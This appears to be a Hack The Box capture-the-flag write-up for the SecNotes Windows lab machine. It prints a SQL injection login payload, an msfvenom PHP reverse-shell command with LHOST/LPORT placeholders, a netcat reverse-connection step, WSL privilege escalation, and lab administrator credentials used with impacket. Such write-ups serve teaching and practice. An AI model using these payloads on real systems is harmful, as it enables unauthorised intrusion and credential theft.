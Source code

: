 ```yaml
---
title: SecNotes Hackthebox Writeup
date: 2020-12-19 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,systeminfo,]     # TAG names should always be lowercase
image: /assets/img/secnotes-hackthebox/secnotes-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@SecNotes:~$


Column | Details
------------ | -------------
Name | SecNotes
IP | 10.10.10.97
Points | 30
Os | Windows
Difficult | Medium
Creator | [0xdf](https://www.hackthebox.eu/home/users/profile/4935)
Out on | 25th August 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Signing up with a `SQL` payload and then `loging in`, on port 80.
* Getting user credentials for `SMB login`.
* Uploading a `php` shell and `nc.exe` to get a reverse connection back.
* Exploiting `WSL` for **Privilege Escalation**, getting `Admin` SMB credentials and loging into the windows machine.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/secnotes-hackthebox/all-port-scan-01.png)

Basically `3 Ports` are open. i.e. `80,445,8808`. Let's access port `80`, which shows a `Login Page`.

___
![](/assets/img/secnotes-hackthebox/login-page-3.png)

Before that we need to `Sign Up`.

___
![](/assets/img/secnotes-hackthebox/register-page-4.png)

Register on the page as *Username*: `test` and *Password*: `testtest`.

___
![](/assets/img/secnotes-hackthebox/after-logging-in-5.png)

I moved through the website for a bit and even tried `gobuster` for directory searching but nothing worked.

After that I tried to log into the SMB port i.e. 445 using `smbclient`, but it also failed.

___
![](/assets/img/secnotes-hackthebox/smbclient-login-fail-7.png)

Now I changed my approach and signed up using a `SQL Payload`.

**Payload** : *' or 1=1 #*

___
![](/assets/img/secnotes-hackthebox/using-sql-payload-9.png)

Now loging in back with new credentials i.e *Username*: `' or 1=1 #` and *Password*: `' or 1=1 #`.

___
![](/assets/img/secnotes-hackthebox/smb-username-password-10.png)

After loging in, we saw the credentials which looked like for `SMB Login`.

**Username**: `tyler`  and **Password**: `92g!mA8BGjOirkL%OG*&`.

Let's login into SMB using `smbclient`.

___
![](/assets/img/secnotes-hackthebox/smbclient-login-11.png)

Checking `new-site` in SMB.

___
![](/assets/img/secnotes-hackthebox/loggedin-new-site-12.png)

new-site is not which is hosted on `port 80`, then I realised that `port 8808` is also open and it shows an `IIS Server` running.

Trying to upload a `test.html` via SMB and access it on `http://10.10.10.97:8808/test.html`.

___
![](/assets/img/secnotes-hackthebox/checking-test-html-14.png)

Now Let's try to upload a `PHP shell` and get a reverse connection.

I used `msfvenom` to create a shell and transfered it via `SMB`.

**Command** : *msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php*

___
![](/assets/img/secnotes-hackthebox/msfvenom-php-final-reverseshell-17.png)

The above method didn't work because my shell was breaking again and again.

I changed the payload and got it working by using `nc.exe`, which I had transfered via `SMB`.

**New Payload** :
___
![](/assets/img/secnotes-hackthebox/new-small-revershell-php-18.png)

**Payload** and **nc.exe** successfully transfered.

___
![](/assets/img/secnotes-hackthebox/new-smb-nc-small-shell-20.png)

Listening on `nc` on my machine and accessing `http://10.10.10.97:8808/small-shell.php`, we got a shell.

___
![](/assets/img/secnotes-hackthebox/new-got-shell-21.png)

Got `User-Flag`.

For `Privilege Escalation`, I has looking through the directories and found a direcotry named `Ubuntu`. As soon as I saw this, I thought that something might be related to `WSL Exploitation`.

Check for [WSL walkaround](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---windows-subsystem-for-linux-wsl).

Finding `bash.exe`: *where /R c:\windows bash.exe* and `wsl.exe`: *where /R c:\windows wsl.exe*.

After that we could have run either `bash.exe` or `wsl.exe`, I ran **wsl.exe**.

We Entered a `Linux Subsystem` as **root**.

[Stabling the shell](https://netsec.ws/?p=337), **Command**: *Python -c 'import pty; pty.spawn("/bin/sh")'*

![](/assets/img/secnotes-hackthebox/new-running-wsl-exe-26.png)

In `root` directory, I found a file called `.bash_history`, which displayed the `admininstrator` credentials of the windows machine for SMB.

**Username**: `administrator` and **Password**: `u6!4ZwgwOM#^OBf#Nwnh`

___
![](/assets/img/secnotes-hackthebox/got-smb-user-credentials-27.png)

Now loging into the machine using `smbexec.py` which can be found in `impacket`.

Download link: [Imapcket](https://github.com/SecureAuthCorp/impacket/tree/master/examples)

___
![](/assets/img/secnotes-hackthebox/impacket-root-28.png)

Got `Root`.